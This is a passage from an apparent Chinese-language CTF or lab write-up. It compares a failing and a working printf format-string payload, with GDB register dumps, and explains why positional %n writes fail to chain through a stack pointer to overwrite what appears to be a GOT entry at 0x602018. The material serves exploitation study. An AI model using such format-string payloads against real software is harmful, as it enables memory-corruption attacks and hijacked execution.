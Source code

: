 - ==Incorrect Payload:== `%6299672c%12$n%216c%20$hhn%10504067c%10$n`遇到的問題
    :::spoiler Register
    ```
    $rdi   : 0x0
    $rax   : 0x0
    $r8    : 0xffffffff
    $rbx   : 0xf0
    $rcx   : 0x00007ffff7f78f40  →  0x0000000000000000
    $r13   : 0x0
    $r10   : 0x00007fffffffa580  →  0x00000000f7fb8723
    $r12   : 0x1
    $r14   : 0x00007fffffffa248  →  0x00000000ffffffff
    $r9    : 0x0
    $rbp   : 0x00007fffffffa9d0  →  0x00007fffffffaf90  →  0x00007fffffffd670
    $rip   : 0x00007ffff7e40bc4  →  <printf_positional+7716> mov BYTE PTR [rax], bl
    $eflags: [zero carry parity adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
    $rdx   : 0x00007ffff7e3f42a  →  <printf_positional+1674> endbr64
    $r15   : 0x00007fffffffafc0  →  0x00000000fbad8004
    $rsi   : 0x00007fffffffa580  →  0x00000000f7fb8723
    $r11   : 0x6e
    $rsp   : 0x00007fffffffa060  →  0x0000000000000000
    $gs: 0x00 $fs: 0x00 $es: 0x00 $cs: 0x33 $ss: 0x2b $ds: 0x00
    ```
    :::
* ==Correct Payload:== `%c%c%c%c%c%c%c%c%c%c%6299662c%n%216c%20$hhn%10504067c%10$n`
    :::spoiler Register
    ```
    $rdi   : 0x0
    $rax   : 0x0000000000602018  →  0x00000000004006c6  →  0xffe0e90000000068 ("h"?)
    $r8    : 0xffffffff
    $rbx   : 0xf0
    $rcx   : 0x00007ffff7f78f40  →  0x0000000000000000
    $r13   : 0x0
    $r10   : 0x00007fffffffa580  →  0x00000000f7fb8723
    $r12   : 0x1
    $r14   : 0x0000000000603cf8  →  0x00000000ffffffff
    $r9    : 0x0
    $rbp   : 0x00007fffffffa9d0  →  0x00007fffffffaf90  →  0x00007fffffffd670
    $rip   : 0x00007ffff7e40bc4  →  <printf_positional+7716> mov BYTE PTR [rax], bl
    $eflags: [zero carry parity adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
    $rdx   : 0x00007ffff7e3f42a  →  <printf_positional+1674> endbr64
    $r15   : 0x00007fffffffafc0  →  0x00000000fbad8004
    $rsi   : 0x00007fffffffa580  →  0x00000000f7fb8723
    $r11   : 0x6e
    $rsp   : 0x00007fffffffa060  →  0x0000000000000000
    $gs: 0x00 $fs: 0x00 $es: 0x00 $cs: 0x33 $ss: 0x2b $ds: 0x00
    ```
    :::
可以看到`0x7ffff7e40bc4 mov BYTE PTR [rax], bl`準備把0xf0的值放到rax指向的位置，但是如果是第一種payload，rax的value是0，而第二種payload所存放的value才是0x602018，所以這應該就是@ccccctw所提到的問題，一開始把`0x602018`寫入`0x00007fffffffd7d0`之前都還是零，所以第二種payload因為某種關係，他可以先把`0x602018`寫入`0x00007fffffffd7d0`，==再==把`0x602018`指向的`0x4006c6`最後一個byte改掉，而不是像第一種payload一樣，是同時執行所有的動作，導致系統還沒有把`0x602018`寫入`0x00007fffffffd7d0`，想當然`0x00007fffffffd7d0`的value也是零
```
...
0x00007fffffffd790│+0x0030: 0x00007fffffffd7d0  →  0x0000000000000000    ← $rbp
...
0x00007fffffffd7d0│+0x0070: 0x0000000000000000
```

---